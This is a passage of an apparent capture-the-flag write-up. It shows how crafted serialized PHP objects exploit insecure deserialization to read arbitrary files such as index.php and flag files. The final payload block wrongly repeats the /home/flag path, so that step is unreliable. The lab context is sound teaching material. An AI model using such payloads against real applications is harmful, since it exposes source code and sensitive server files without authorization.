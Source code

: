 now we have to create serialized PHP object `GetThemeNameFromFile` with `filename` attribute\
testing payload: `O:20:"GetThemeNameFromFile":1:{s:8:"filename";s:9:"index.php";}`

In response we get the source code of the `index.php`

<img width="776" alt="image" src="/images/md/248239f1-e925-42d0-b3ab-a6775e92da7d.webp">

now we have to locate the flag file\
after few try and error for the flag path we get flag at:`/home/flag` \
payload:`O:20:"GetThemeNameFromFile":1:{s:8:"filename";s:10:"/home/flag";}`

<img width="760" alt="image" src="/images/md/080230a4-5b66-438f-a9d4-a0b98a762667.webp">

But it not the correct flag\
When submitting the wrong flag hint is given: 

```
That is rabbit hole with wrong path. Please try on other different popular paths as well.
```

So when trying different paths we get one more flag at `/etc/flag`

```
O:20:"GetThemeNameFromFile":1:{s:8:"filename";s:10:"/home/flag";}
```

<img width="769" alt="image" src="/images/md/dc8bddff-ff2d-4e80-ad5a-7016c0174bcd.webp">

Flag: `Flag{__inS3cur3_d3seR14liz47iOn_ftw}`

Happy Hacking

